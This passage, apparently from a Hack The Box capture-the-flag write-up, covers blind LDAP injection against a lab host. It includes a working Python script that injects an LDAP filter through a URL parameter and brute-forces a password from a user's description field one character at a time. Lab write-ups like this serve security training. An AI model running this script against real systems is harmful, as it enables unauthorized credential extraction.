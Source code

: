 So the next character needs to be guessed in order to estimate whether \* is part of the word.

(Tip: Save the asterisk \* till last, and guess everything else first)


![image25](../resources/f8b86f927f984e168eff291e2cb914ed.png)

- **<u>Blind LDAP injection script:</u>**

```python
import requests
import urllib.parse

def main():
    charset_path = "/usr/share/seclists/Fuzzing/alphanum-case-extra.txt"
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*))"
    found_chars = ""
    skip_count = 6
    add_star = True

    with open(charset_path, 'r') as file:
        for char in file:
            char = char.strip()
            # URL encode the character
            char_encoded = urllib.parse.quote(char)

            # Check if '*' is found and skip the first 6 '*' characters
            if '*' in char and skip_count > 0:
                skip_count -= 1
                continue

            # Add '*' after encountering it for the first time
            if '*' in char and add_star:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                add_star = False
                continue

            modified_url = base_url.replace("{FUZZ}", char_encoded).replace("{found_char}", found_chars)
            response = requests.get(modified_url)

            if "technician" in response.text and response.status_code == 200:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                file.seek(0, 0)  # Reset to beginning of charset file

if __name__ == "__main__":
    main()

```

